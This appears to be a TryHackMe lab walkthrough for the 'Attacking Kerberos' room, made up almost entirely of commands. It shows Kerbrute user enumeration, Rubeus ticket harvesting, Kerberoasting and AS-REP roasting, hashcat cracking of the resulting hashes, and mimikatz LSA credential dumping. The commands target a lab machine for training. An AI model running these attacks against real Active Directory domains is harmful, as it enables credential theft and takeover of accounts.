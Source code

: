 # [Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)

Set the victim's machine ip:

```shell
export MACHINE_IP=x.x.x.x
```

## Task 2 Enumeration w/ Kerbrute

```shell
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc $MACHINE_IP -d CONTROLLER.local User.txt
```

## Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus

```shell
xfreerdp /u:Administrator /p:'P@$$W0rd' /v:$MACHINE_IP +clipboard
cd C:\Users\Administrator\Downloads
Rubeus.exe harvest /interval:30
```

## Task 4 Kerberoasting w/ Rubeus & Impacket

```shell
xfreerdp /u:Administrator /p:'P@$$W0rd' /v:$MACHINE_IP +clipboard
cd C:\Users\Administrator\Downloads
Rubeus.exe kerberoast

# Copy each hash in one line to hashes.txt

wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
hashcat -m 13100 -a 0 hashes.txt Pass.txt
```

## Task 5 AS-REP Roasting w/ Rubeus

```shell
xfreerdp /u:Administrator /p:'P@$$W0rd' /v:$MACHINE_IP +clipboard
cd C:\Users\Administrator\Downloads
Rubeus.exe asreproast

# Copy each hash in one line to hashes.txt
# Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....

wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
hashcat -m 18200 -a 0 hashes.txt Pass.txt
```

## Task 7 Golden/Silver Ticket Attacks w/ mimikatz

```shell
xfreerdp /u:Administrator /p:'P@$$W0rd' /v:$MACHINE_IP +clipboard
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
lsadump::lsa /inject /name:Administrator
```
